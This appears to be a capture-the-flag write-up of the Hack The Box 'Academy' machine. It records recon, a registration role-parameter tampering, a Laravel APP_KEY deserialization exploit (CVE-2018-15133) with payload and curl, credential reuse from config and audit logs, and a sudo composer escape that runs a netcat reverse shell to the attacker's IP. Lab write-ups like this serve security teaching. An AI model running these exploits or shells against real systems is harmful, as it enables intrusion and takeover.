


# Academy writeup by XMBomb

## Discovery
```bash
# Nmap 7.91 scan initiated Fri Dec 11 10:33:17 2020 as: nmap -v -sC -sV -Pn -oN nmap 10.10.10.215
Nmap scan report for 10.10.10.215
Host is up (0.099s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 11 10:33:38 2020 -- 1 IP address (1 host up) scanned in 20.50 seconds
```
nmap reveals port 80 to be open

Opening port 80 in a browser, it redirects it to academy.htb.
Add that to the /etc/hosts file and run dirsearch:


Seems to have some kind of Login for users/admins


Basic SQL injections seem to be fruitless


I'll try registering, the POST request looks interesting
```
POST /register.php HTTP/1.1
Host: academy.htb
<snip>
uid=hacker&password=hacker&confirm=hacker&roleid=0
```

Seems that `roleid=0` is added to the request.

I'll try registering with `roleid=1`, and see if I can log into the discovered admin login.

```
uid=hacker1&password=hacker&confirm=hacker&roleid=1
```
And indeed I get to the admin page!


This reveals another domain: `dev-staging-01.academy.htb`
I'll add that to the `/etc/hosts` file as well:
```
10.10.10.215 academy.htb
10.10.10.215 dev-staging-01.academy.htb
```
Visiting this site, immediately throws an error

We can gather multiple footholds with this:
- We can see it's using Laravel
- We see the path of the web-app that's running: `/var/www/html/htb-academy-dev-01/...`
- We can see a list of server variables:
```
SERVER_SOFTWARE "Apache/2.4.41 (Ubuntu)"
SERVER_NAME "dev-staging-01.academy.htb"
SERVER_ADDR "10.10.10.215"
SERVER_PORT "80"
REMOTE_ADDR "10.10.14.6"
DOCUMENT_ROOT "/var/www/html/htb-academy-dev-01/public"
CONTEXT_DOCUMENT_ROOT "/var/www/html/htb-academy-dev-01/public"
SERVER_ADMIN "admin@htb"
SCRIPT_FILENAME "/var/www/html/htb-academy-dev-01/public/index.php"

Environment Variables
APP_NAME "Laravel"
APP_ENV "local"
APP_KEY "base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
DB_CONNECTION "mysql"
DB_HOST "127.0.0.1"
DB_PORT "3306"
DB_DATABASE "homestead"
DB_USERNAME "homestead"
DB_PASSWORD "secret"
REDIS_HOST "127.0.0.1"
REDIS_PASSWORD "null"
REDIS_PORT "6379"
```
We know the mysql user/pw now (at least for the test server), but mysql's port is not accessible for us at the moment.

We saw that port 22 (SSH) is open, let's try with the credentials we found

This did not work

We can also try decoding the "APP_KEY", it might contain a password that is reused:
```bash
echo "dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=" | base64 --decode
th˙ϲ*ӥ/t:
         A*=
```
Nope

`APP_KEY` seems to be the correct approach though, after googling for "Laravel APP_KEY exploit", I found this
https://github.com/kozmic/laravel-poc-CVE-2018-15133

Reading the source code it seems that it will only work for `Laravel Framework <= 5.6.29 / <= 5.5.40 `, we don't actually know the version yet, but it's worth a try.

There is a sample exploit as well, it should execute `uname -a` if successful.

## Foothold: APP_KEY RCE
```bash
git clone https://github.com/kozmic/laravel-poc-CVE-2018-15133
APP_KEY=dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
cd laravel-poc-CVE-2018-15133

./cve-2018-15133.php $APP_KEY Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2FkY2FzdCI6Mjp7czo5OiIAKgBldmVudHMiO086MTU6IkZha2VyXEdlbmVyYXRvciI6MTp7czoxMzoiACoAZm9ybWF0dGVycyI7YToxOntzOjg6ImRpc3BhdGNoIjtzOjY6InN5c3RlbSI7fX1zOjg6IgAqAGV2ZW50IjtzOjg6InVuYW1lIC1h
#PoC for Unserialize vulnerability in Laravel <= 5.6.29 (CVE-2018-15133) by @kozmic
#
#HTTP header for POST request: 
#X-XSRF-TOKEN: eyJpdiI6IlNFcU9XaDBZUnNEVjlhSDRwM1FcL2JBPT0iLCJ2YWx1ZSI6IkhCSlJ1S09IdDJWWE1pZGdVT1ZkNmV1ZFVGaVdFU1JVSFd5cVYxN2dUYjFsc3dqa1ZaT3Z5VWVDckdxdDE0V1M1RXZcL3dIalQ4eHNDTyt0NnlXWG84eE5KaHNyMjhhaTZPd2pkXC9qUGpSeHQ3blpXZXdrZEFYeFlSNFpkSHo5WDYxU2o4MnNtZUVQSWZjZFkwV2RUNjFVdHdXNG90bUxGNndKWDhPYVhGMER3STN6WlNBSnV0VjM3cWpEd0gwY1wvZzFCZ1cxaUp6T2pQQ1Nrck9jZHBkcjhYNjZObHB0SlpnbDJDRFBkMzFTK2VYbDhzZUZ6R2pnczZWejNLcWtFUG0iLCJtYWMiOiJhYWM3YzU3OTZhNzNmMGU3NjBmNTE0ODEyNjc0YzRhZjI5MjEyYWNhODA3ZmI3ZWJmMGRhYmI3ZDk3ZDhlMGI2In0=


curl http://dev-staging-01.academy.htb -X POST -H 'X-XSRF-TOKEN: eyJpdiI6IlNFcU9XaDBZUnNEVjlhSDRwM1FcL2JBPT0iLCJ2YWx1ZSI6IkhCSlJ1S09IdDJWWE1pZGdVT1ZkNmV1ZFVGaVdFU1JVSFd5cVYxN2dUYjFsc3dqa1ZaT3Z5VWVDckdxdDE0V1M1RXZcL3dIalQ4eHNDTyt0NnlXWG84eE5KaHNyMjhhaTZPd2pkXC9qUGpSeHQ3blpXZXdrZEFYeFlSNFpkSHo5WDYxU2o4MnNtZUVQSWZjZFkwV2RUNjFVdHdXNG90bUxGNndKWDhPYVhGMER3STN6WlNBSnV0VjM3cWpEd0gwY1wvZzFCZ1cxaUp6T2pQQ1Nrck9jZHBkcjhYNjZObHB0SlpnbDJDRFBkMzFTK2VYbDhzZUZ6R2pnczZWejNLcWtFUG0iLCJtYWMiOiJhYWM3YzU3OTZhNzNmMGU3NjBmNTE0ODEyNjc0YzRhZjI5MjEyYWNhODA3ZmI3ZWJmMGRhYmI3ZDk3ZDhlMGI2In0=' -o curl-out

head -2 curl-out 
# <!DOCTYPE html><!--
```
This did not work, but we can try the metasploit version:


And we got a shell!
```
find . -iname user.txt
```
Does reveal some user flags, but as `www-data` we do not have access to any of them.

## Latteral movement - MySQL
```bash
www-data@academy:/var/www/html/academy$ mysql -uhomestead -p
mysql -uhomestead -p
Enter password: secret

ERROR 1045 (28000): Access denied for user 'homestead'@'localhost' (using password: YES)
```

## Privesc
On my Kali:
```bash
kali@kali:~$ cd /opt/privilege-escalation-awesome-scripts-suite/linPEAS/
kali@kali:/opt/privilege-escalation-awesome-scripts-suite/linPEAS$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
On the target:
```bash
www-data@academy:/var/www/html/academy$ wget 10.10.14.6/linpeas.sh
```

Interesting things to look at:
- /var/www/html/academy/.env.example:DB_USERNAME=homestead
- /var/www/html/academy/.env.example:MAIL_USERNAME=null
- /var/www/html/academy/.env:DB_USERNAME=dev
- /var/www/html/academy/.env:MAIL_USERNAME=null
- /var/www/html/academy/config/database.php:            'username' => env('DB_USERNAME', 'forge'),


#### /var/www/html/academy/config/database.php

```
    'connections' => [                                                                                                                                                                                                                                                                                         
        'sqlite' => [                                                                                                                                                                                                                                                                                                        
            'driver' => 'sqlite',                                                                                                                                                                                                                                                                                            
            'database' => env('DB_DATABASE', database_path('database.sqlite')),                                                                                                                                                                                                                                              
            'prefix' => '',                                                                                                                                                                                                                                                                                                  
        ],                                                                                                                                                                                                                                                                                                                   
                                                                                                                                                                                                                                                                                                                             
        'mysql' => [                                                                                                                                                                                                                                                                                                         
            'driver' => 'mysql',                                                                                                                                                                                                                                                                                             
            'host' => env('DB_HOST', '127.0.0.1'),                                                                                                                                                                                                                                                                           
            'port' => env('DB_PORT', '3306'),                                                                                                                                                                                                                                                                                
            'database' => env('DB_DATABASE', 'forge'),                                                                                                                                                                                                                                                                       
            'username' => env('DB_USERNAME', 'forge'),                                                                                                                                                                                                                                                                       
            'password' => env('DB_PASSWORD', ''),                                                                                                                                                                                                                                                                            
            'unix_socket' => env('DB_SOCKET', ''),                                                                                                                                                                                                                                                                           
            'charset' => 'utf8mb4',                                                                                                                                                                                                                                                                                          
            'collation' => 'utf8mb4_unicode_ci',                                                                                                                                                                                                                                                                             
            'prefix' => '',                                                                                                                                                                                                                                                                                                  
            'strict' => true,
            'engine' => null,
        ],

        'pgsql' => [
            'driver' => 'pgsql',
            'host' => env('DB_HOST', '127.0.0.1'),
            'port' => env('DB_PORT', '5432'),
            'database' => env('DB_DATABASE', 'forge'),
            'username' => env('DB_USERNAME', 'forge'),
            'password' => env('DB_PASSWORD', ''),
            'charset' => 'utf8',
            'prefix' => '',
            'schema' => 'public',
            'sslmode' => 'prefer',
        ],

        'sqlsrv' => [
            'driver' => 'sqlsrv',
            'host' => env('DB_HOST', 'localhost'),
            'port' => env('DB_PORT', '1433'),
            'database' => env('DB_DATABASE', 'forge'),
            'username' => env('DB_USERNAME', 'forge'),
            'password' => env('DB_PASSWORD', ''),
            'charset' => 'utf8',
            'prefix' => '',
        ],

    ],
```
#### /var/www/html/academy/.env
```
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!

BROADCAST_DRIVER=log
CACHE_DRIVER=file
SESSION_DRIVER=file
SESSION_LIFETIME=120
QUEUE_DRIVER=sync

REDIS_HOST=127.0.0.1
REDIS_PASSWORD=null
REDIS_PORT=6379

MAIL_DRIVER=smtp
MAIL_HOST=smtp.mailtrap.io
MAIL_PORT=2525
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"
```


```
www-data@academy:/var/www/html/academy$ mysql -udev -h127.0.0.1 -p
mysql -udev -h127.0.0.1 -p
Enter password: mySup3rP4s5w0rd!!

ERROR 1045 (28000): Access denied for user 'dev'@'localhost' (using password: YES)
```

Just to be sure that this is not because of a stripped down mysql-client on the target I created a chisel HTTP tunnel:


Now I can access port 3306 like it was on my local machine:

Still no luck

### Logging in as another user:


running `id` we can see that this user is infact in an `adm` group:
```bash
id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```

As we know the user cry0l1t3 and his password now, we can switch to a nicer ssh shell.
```
ssh cry0l1t3@10.10.10.215
```


We'll transfer LinPEAS onto it (same procedure as every time, start python http server and wget it on the target), and get something interesting
```
[+] Checking for TTY (sudo/su) passwords in logs                                                                                                                                                                                                                                                                             
Error opening config file (Permission denied)                                                                                                                                                                                                                                                                                
NOTE - using built-in logs: /var/log/audit/audit.log                                                                                                                                                                                                                                                                         
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>                                                                                                                                                                                                                                                                           
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>                                                                                                                                                                                                                                                                     
/var/log/audit/audit.log.3:type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

We'll try to log in with that, and success we're mrb3n now!
Running
```bash
sudo -l
```
reveals that the user can run /usr/bin/composer with sudo

Composer is a php package/build manager. It can be used to run commands as well:
https://gtfobins.github.io/gtfobins/composer/
```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 8000 >/tmp/f"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

Quickly `nc -nvlp 8000` on our Kali machine, and we get a root shell back!
